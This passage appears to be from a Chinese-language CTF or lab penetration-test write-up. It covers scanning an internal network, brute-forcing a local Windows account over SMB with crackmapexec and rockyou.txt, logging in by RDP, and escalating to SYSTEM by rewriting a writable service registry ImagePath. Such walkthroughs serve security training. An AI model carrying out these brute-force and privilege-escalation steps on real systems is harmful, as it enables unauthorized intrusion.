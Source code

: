 ```shell
[*] WebTitle: http://172.22.4.36        code:200 len:68100  title:中文网页标题
[*] WebTitle: http://172.22.4.45        code:200 len:703    title:IIS Windows Server
```

整理信息

```shell
172.22.4.36 本机
172.22.4.19 FILESERVER
172.22.4.7 DC01
172.22.4.45 WIN19
```

根据上文的提示, 用户名为 `WIN19\Adrian`, 密码字典为 rockyou.txt

这里被坑了一把, fscan 识别不到密码过期的账户, 导致一直跑不出来

换成了 crackmapexec

```shell
proxychains crackmapexec smb 172.22.4.45 -u Adrian -p rockyou.txt -d WIN19
```

![image-20230809160747595](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091607631.png)

因为是本地账户, 直接 rdp 过去修改密码

![image-20230809161116120](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091611160.png)

![image-20230809161228370](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091612412.png)

桌面上有 PrivescCheck 和已经提前生成好的 report html

![image-20230809161551552](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091615586.png)

![image-20230809161801709](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091618739.png)

发现当前用户对 gpupdate 服务的注册表项具有写权限, 并且用户也可以启动和停止 gpupdate 服务

```shell
Name              : gupdate
ImagePath         : "C:\Program Files (x86)\Google\Update\GoogleUpdate.exe" /svc
User              : LocalSystem
ModifiablePath    : HKLM\SYSTEM\CurrentControlSet\Services\gupdate
IdentityReference : BUILTIN\Users
Permissions       : WriteDAC, Notify, ReadControl, CreateLink, EnumerateSubKeys, WriteOwner, Delete, CreateSubKey, SetV
                    alue, QueryValue
Status            : Stopped
UserCanStart      : True
UserCanStop       : True
```

直接修改 ImagePath, 然后手动启动服务以 SYSTEM 权限上线

![image-20230809162014147](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308091620179.png)
